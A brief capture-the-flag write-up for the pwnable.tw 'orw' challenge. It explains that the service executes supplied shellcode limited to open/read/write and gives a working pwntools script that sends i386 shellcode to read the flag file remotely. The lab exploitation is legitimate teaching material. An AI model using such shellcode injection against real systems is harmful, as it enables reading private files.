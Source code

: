 ```yaml
---
title: "Pwnable.tw orw Writeup"
description: "Pwnable.tw orw Writeup"
publishDate: "10 Nov 2024"
updatedDate: "25 Aug 2025"
tags: ["CTF", "writeup", "pwnable.tw"]
---
```


# 題目

## 簡介

Read the flag from /home/orw/flag.  
Only open read write syscall are allowed to use.

[pwnable.tw_orw](https://pwnable.tw/challenge/#2)

# 題解

總之就是你丟什麼他就執行什麼  
但是只能用 **read/write/open**

# Exploit

```python
from pwn import *
context.arch = "i386"
r = remote("chall.pwnable.tw", 10001)

# 使用 shellcraft 生成 shellcode
# 讀取並輸出 50 個 byte
sc = asm(
    shellcraft.i386.linux.open(b'/home/orw/flag') +
    shellcraft.i386.linux.read('eax', 'esp', 50) +
    shellcraft.i386.linux.write('1', 'esp', 50)
)

r.sendlineafter(b':', sc)
print(r.recvuntil(b'}'))

r.interactive()
```
